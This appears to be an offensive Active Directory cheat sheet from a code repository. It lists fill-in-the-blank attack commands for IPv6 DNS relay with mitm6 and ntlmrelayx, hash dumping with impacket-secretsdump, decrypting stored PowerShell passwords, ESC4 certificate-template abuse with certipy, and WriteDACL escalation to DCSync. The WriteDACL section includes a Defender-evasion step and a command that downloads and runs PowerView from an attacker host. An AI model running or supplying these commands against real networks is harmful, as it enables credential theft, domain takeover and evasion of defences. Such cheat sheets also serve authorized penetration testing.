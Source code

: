 ### IPv6 DNS Attacks

1. `mitm6 -d <domain>`
2. `sudo impacket-ntlmrelayx -6 -t ldaps://<domain_controller_ip> -wh <fake_wpad_hostname> -l <output_directory>`
   - `-t ldaps://<domain_controller_ip>`: Replace `<domain_controller_ip>` with the IP address of the domain controller.
   - `-wh <fake_wpad_hostname>`: Replace `<fake_wpad_hostname>` with the hostname you want to use for the fake WPAD server.
   - `-l <output_directory>`: Replace `<output_directory>` with the directory where you want to save the results.
3. Check the results in the directory specified by `<output_directory>` for ntlmrelayx.
4. If an admin logs in, it might succeed in creating a new user.


### MFP Hacking

- See: [How to Hack Through a Pass-Back Attack: MFP Hacking Guide](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)


### Dump hashes

- `impacket-secretsdump <domain>/<username>:<password>@<target_ip>`
- `impacket-secretsdump -ntds <ntds_file> -system <system_file> LOCAL`
  - `<ntds_file>`: Path to the NTDS.dit file.
  - `<system_file>`: Path to the SYSTEM hive file.
    - `SYSTEM` or `system.hive`
- Alternatively, you can run:
  1. `impacket-secretsdump -ntds <ntds_file> -system <system_file> LOCAL > hashes.txt`
  2. `cat hashes.txt | cut -d ':' -f 4 > pothashes.txt`
  3. `gedit pothashes.txt`


### Microsoft password automation decrypt

1. `$pw = "<encrypted_password>" | ConvertTo-SecureString`
2. `$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)`
3. `$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)`
4. `echo $UnsecurePassword`


### Full control / Write privileges over a template (ESC4)

1. `certipy-ad req -username <username> -password '<password>' -target <target_domain> -ca <ca_name> -template <template_name> -upn <upn> -dc-ip <dc_ip> -debug`
2. `certipy-ad auth -pfx administrator.pfx -domain <target_domain> -username administrator -dc-ip <dc_ip>`


### WriteDACL

- If you find that your user or the group which your user is part of has this right, follow these steps
1. `net user <username> <password> /add /domain`
2. `net group "Exchange Windows Permissions" <username> /add`
3. `net localgroup "Remote Management Users" <username> /add`
4. When using evil-winrm, run the command 'Bypass-4MSI' to evade defender
5. `iex(new-object net.webclient).downloadString('http://<attacker_ip>/PowerView.ps1')`
6. `$pass = convertto-securestring '<password>' -asplain -force`
7. `$cred = new-object system.management.automation.pscredential('<domain>\<username>', $pass)`
8. `Add-ObjectACL -PrincipalIdentity <username> -Credential $cred -Rights DCSync`
9. Proceed with DCSync using `<username>:<password>`
